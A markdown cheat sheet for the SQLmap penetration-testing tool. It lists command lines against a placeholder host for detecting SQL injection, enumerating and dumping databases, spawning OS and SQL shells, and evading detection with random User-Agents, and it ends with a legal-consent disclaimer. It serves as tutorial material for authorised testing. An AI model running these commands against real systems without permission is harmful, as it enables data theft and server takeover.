 
# SQLmap Cheat Sheet

SQLmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

## Basic Usage

- To test a single URL:

```
sqlmap -u "http://example.com/param1=value1&param2=value2"
```

- To specify the HTTP method:

```
sqlmap -u "http://example.com" --data="POST data to test" --method=POST
```

- To test a URL with cookies:

```
sqlmap -u "http://example.com/param=value" --cookie="name=value; name2=value2"
```

## Database Enumeration

- To get a list of databases:

```
sqlmap -u "http://example.com/param=value" --dbs
```

- To get a list of tables from a specific database:

```
sqlmap -u "http://example.com/param=value" -D database_name --tables
```

- To get a list of columns from a specific table:

```
sqlmap -u "http://example.com/param=value" -D database_name -T table_name --columns
```

- To dump the contents of a specific table:

```
sqlmap -u "http://example.com/param=value" -D database_name -T table_name --dump
```

- To dump specific columns from a table:

```
sqlmap -u "http://example.com/param=value" -D database_name -T table_name -C "column1,column2" --dump
```

## Operating System Interaction

- To get an interactive OS shell:

```
sqlmap -u "http://example.com/param=value" --os-shell
```

- To get an SQL shell:

```
sqlmap -u "http://example.com/param=value" --sql-shell
```

- To execute a single OS command:

```
sqlmap -u "http://example.com/param=value" --os-cmd "whoami"
```

## Advanced Enumeration

- To fingerprint the back-end database management system:

```
sqlmap -u "http://example.com/param=value" --banner
```

- To enumerate the user-privileges:

```
sqlmap -u "http://example.com/param=value" --privileges
```

- To enumerate the roles:

```
sqlmap -u "http://example.com/param=value" --roles
```

- To search for specific database names, table names, or column names:

```
sqlmap -u "http://example.com/param=value" --search -D database_wildcard -T table_wildcard -C column_wildcard
```

## Automation and Detection Settings

- To set the level of tests to perform (1-5):

```
sqlmap -u "http://example.com/param=value" --level=5
```

- To set the risk of tests to perform (1-3):

```
sqlmap -u "http://example.com/param=value" --risk=3
```

- To use a random User-Agent header:

```
sqlmap -u "http://example.com/param=value" --random-agent
```

## Legal Disclaimer

Usage of SQLmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

**Please use SQLmap responsibly!**
